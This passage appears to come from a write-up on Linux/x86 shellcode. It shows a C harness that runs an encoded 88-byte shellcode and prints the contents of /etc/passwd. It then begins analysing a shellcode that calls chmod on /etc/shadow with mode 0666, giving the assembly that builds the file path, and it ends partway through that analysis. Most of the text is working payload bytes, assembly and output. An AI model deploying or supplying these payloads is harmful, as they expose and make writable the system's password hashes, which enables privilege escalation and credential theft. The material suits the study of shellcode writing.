 ```bash
$ cat read.c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] =
"\x31\xc0\x89\xc3\x89\xc1\x89\xc2\xeb\x3e\x5b\xb1\x0b\xf6\x13\x43\xe2\xfb\x83\xeb\x0b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\x88\xd0\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb3\x01\x88\xd8\x04\x03\x88\xda\xcd\x80\x83\xc4\x01\xeb\xdd\xe8\xbd\xff\xff\xff\xd0\x9a\x8b\x9c\xd0\x8f\x9e\x8c\x8c\x88\x9b";

main()
{
        printf("Shellcode Length: %d\n",strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}

$ gcc -fno-stack-protector -e execstack read-new.c -o read-new
$ ./read-new 
Shellcode Length: 88
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
....
```

The original shellcode has 65 bytes + pathname, and our shellcode has 77 bytes + pathname, so we have increased the shellcode 18.46%


#### Linux/x86 chmod("/etc/shadow", 0666) shellcode

The following shellcode change the permissions of the /etc/shadow file using the syscall sys\_chmod.


##### Shellcode Analysis 

The sys\_chmod syscall is 0xf, so, save in the eax register 0xf

```asm
 	push byte 15
	pop eax
```

```c
int chmod(const char *pathname, mode_t mode);
```
now, we need the pathname in ebx and the mode (666) in ecx.

/etc/shadow in ebx:

```asm
	push byte 0x77
	push word 0x6f64
	push 0x6168732f
	push 0x6374652f
	mov ebx, esp
```
